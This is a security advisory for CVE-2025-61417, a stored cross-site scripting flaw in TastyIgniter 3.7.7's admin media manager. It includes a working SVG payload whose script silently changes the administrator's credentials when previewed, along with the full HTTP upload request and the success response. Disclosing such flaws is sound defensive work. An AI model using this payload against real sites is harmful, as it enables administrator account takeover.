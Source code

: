 # CVE-2025-61417 — Stored XSS (Cross-Site Scripting)

---

**Vulnerability Type:** Cross Site Scripting (XSS)  
**Vendor of Product:** [TastyIgniter](https://github.com/tastyigniter/TastyIgniter)   
**Affected Product:** TastyIgniter - 3.7.7  
**Attack Type:** Remote  
**Affected Component:** `admin/media_manager` feature built into the application (upload image).  
**Severity:** ??  
**Disclosure status:** Public  
**Impact:** Exploitation can lead to full administrative account takeover (modify admin username, email, password).

---

## Description

A stored cross-site scripting (XSS) vulnerability exists in TastyIgniter 3.7.7, affecting the `/admin/media_manager` component. Attackers who can upload files may craft a malicious SVG file containing JavaScript. When an administrator previews the SVG in the admin interface, the embedded script executes within the admin's browser context. This allows the attacker to modify the admin account credentials, enabling full account takeover.

---

## Steps to Reproduce

1. Go to `http://127.0.0.1:8000/admin/media_manager` and upload a crafted `.svg` file containing a malicious script.
   
   Example SVG Payload:
   ```xml
   <svg xmlns="http://www.w3.org/2000/svg">
     <script><![CDATA[
       fetch("http://127.0.0.1:8000/admin/staffs/account?_method=PATCH&Staff%5Bstaff_name%5D=Hacked&Staff%5Bstaff_email%5D=hacked%40gmail.com&Staff%5Buser%5D%5Busername%5D=Hacked&Staff%5Blanguage_id%5D=1&Staff%5Buser%5D%5Bpassword%5D=123456&Staff%5Buser%5D%5Bpassword_confirm%5D=123456", {
         method: "GET",
         credentials: "include",
         headers: {
           "X-Requested-With": "XMLHttpRequest",
           "X-IGNITER-REQUEST-HANDLER": "onSave"
         }
       });
     ]]></script>
   </svg>

2. Once the malicious SVG is uploaded, an admin browses to the Media Manager and previews the file. The embedded JavaScript executes in the admin's browser context.
3. The script sends an authenticated `PATCH` request (with valid headers like `X-Requested-With` and `X-IGNITER-REQUEST-HANDLER`) to `/admin/staffs/account`, modifying the admin's username, email, name, and password.
4. This results in a full account hijack of the administrator without their knowledge.


## HTTP Request (To Upload the Malicious SVG)
```
POST /admin/media_manager HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
X-CSRF-TOKEN: KS9zbdPKPBt6IZIdC9rGqRwi8dYyy5AovnQ3B0oQ
X-IGNITER-FILEUPLOAD: mediamanager
Content-Type: multipart/form-data; boundary=----geckoformboundary572b120aaa61d256c4b644dd4c854b1a
Content-Length: 723
Origin: http://127.0.0.1:8000
Connection: keep-alive
Referer: http://127.0.0.1:8000/admin/media_manager
Cookie: <Cookie>
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

------geckoformboundary572b120aaa61d256c4b644dd4c854b1a
Content-Disposition: form-data; name="path"
/ 
------geckoformboundary572b120aaa61d256c4b644dd4c854b1a
Content-Disposition: form-data; name="file_data"; filename="CSRF.svg"
Content-Type: image/svg+xml

<svg xmlns="http://www.w3.org/2000/svg">
  <script><![CDATA[
    fetch("http://127.0.0.1:8000/admin/staffs/account?_method=PATCH&Staff%5Bstaff_name%5D=HackedStaff&Staff%5Bstaff_email%5D=hacked%40gmail.com&Staff%5Buser%5D%5Busername%5D=HackedStaff&Staff%5Blanguage_id%5D=1&Staff%5Buser%5D%5Bpassword%5D=123456&Staff%5Buser%5D%5Bpassword_confirm%5D=123456", {
      method: "GET",
      credentials: "include",
      headers: {
        "X-Requested-With": "XMLHttpRequest",
        "X-IGNITER-REQUEST-HANDLER": "onSave"
      }
    });
  ]]></script>
</svg>
------geckoformboundary572b120aaa61d256c4b644dd4c854b1a--

```

## HTTP Response (On Successful Upload)
```
HTTP/1.0 200 OK
Host: 127.0.0.1:8000
Date: Wed, 16 Jul 2025 08:10:42 GMT
Connection: close
X-Powered-By: PHP/8.0.30
Cache-Control: no-cache, private
Content-Type: application/json

{
  "link": "\/\/CSRF.svg",
  "result": "success"
}

```


